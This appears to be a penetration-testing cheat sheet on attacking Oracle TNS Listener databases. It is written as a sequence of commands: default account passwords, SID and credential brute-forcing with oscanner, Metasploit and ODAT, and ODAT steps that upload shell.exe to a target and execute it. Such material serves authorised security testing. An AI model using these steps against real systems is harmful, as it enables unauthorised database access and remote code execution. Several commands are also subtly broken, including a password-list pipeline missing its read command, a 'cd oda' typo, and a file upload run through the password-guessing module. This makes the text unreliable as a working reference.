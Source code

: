 # Oracle TNS Listener - 1521,1522,1529

## Oracle Information

Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation (from [here](https://www.techopedia.com/definition/8711/oracle-database)).

When enumerating Oracle, the first step is to contact the TNS-Listener, which is normally found on the default port (1521/TCP; secondary listeners can be found on ports 1522–1529).

```
1521/tcp open  oracle-tns    Oracle TNS Listener 9.2.0.1.0 (for 32-bit Windows)
1748/tcp open  oracle-tns    Oracle TNS Listener
```

## SQLPlus Authentication

To login using known credentials:

```
sqlplus <username>/<password>@<ip_address>/<SID>;
```

If the TNS Listener is on a non-default port (e.g. TCP/1522) :

```
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
```

If an **account has system database privileges (sysdba) or system operator (sysop)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```

## **SID Bruteforce**

In order to use **oracle\_login** with **patator** you need to **install**:

```
pip3 install cx_Oracle --upgrade
```

### **Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server (its some work to change it)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

### User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

* **oscan:** _/usr/share/oscanner/accounts.default_ (169 lines)
* **MSF-1:**  _from_ admin/oracle/oracle\_login  __  /usr/share/metasploit-framework/data/wordlists/oracle\_default\_passwords.csv (598 lines)
* **MSF-2:** _from scanner/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_userpass.txt_ (568 lines)
* **Nmap:** _/usr/share/nmap/nselib/data/oracle-default-accounts.lst_ (687 lines)

## oscanner

**Oscanner**, which will try to get some valid SID, and then it will brute-force for valid credentials and try to extract some information:

```bash
#apt install oscanner
oscanner -s <IP> -P <PORT>
```

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** (Oracle Database Attacking Tool) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** (e.g. **reverse shell**) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Install ODAT

We can install ODAT with the following commands:

```
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

As the victim machine is 64 bits, we downloaded the client basic SDK and SQLPlus from the Oracle website

```
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

Now we convert the `.rpm` files into `.deb` files and install them:

```
alien --to-deb *.rpm
dpkg -i *.deb
```

We add the environment variables to the `.zshrc`:

```
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Let's check that everything has been installed well:

```
sqlplus64
python3 odat.py --help
```

### Identify SIDs

We can attempt to identify SIDs:

```bash
odat sidguesser -s 10.10.10.82
```

Alternatively, we can use metasploits sid_brute:

```
msf auxiliary(admin/oracle/sid_brute) > run

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
```

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
# Alternatively
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

```

Generalized:

```bash
git clone https://github.com/quentinhardy/odat.git
cd oda
pip3 install python-libnmap
pip3 install cx_oracle
python3 odat.py all -s <IP> -p <PORT>
```
